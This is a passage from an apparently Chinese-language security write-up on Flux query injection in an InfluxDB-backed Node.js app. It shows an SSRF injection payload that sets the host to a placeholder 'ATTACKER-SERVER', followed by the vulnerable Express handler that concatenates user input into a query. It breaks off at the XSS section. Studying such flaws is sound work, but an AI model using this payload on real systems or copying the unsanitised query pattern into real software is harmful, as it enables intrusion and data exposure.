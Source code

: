 可以看见这里的值为 1337

## SSRF 利用

在官方文档中，可以看见 influxdb 在 from 函数之中是可以接受 host 参数的

[![](assets/1706957940-4e285c9d970a05c6b41c99236aaa0031.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233833-f5117fe2-c117-1.png)

所以可以构造 playload：

```plain
") |> yield(name: "1337")
 from(bucket: "1337", host:"https://ATTACKER-SERVER") |> range(start:0)
 //
```

## XSS 利用

看见上面构建的程序

```plain
app.get('/query', async (req, res) => {
    try {
      const fluxQuery = 'from(bucket:"' + bucket + '") |> range(start: 0)  |> filter(fn: (r) => r._field == "public_field" and r._value == "' + req.query.data + '") '
      result = await query(fluxQuery)

      res.send(result)
    } catch (err) {
      res.send(err.toString())  
    }
});
```
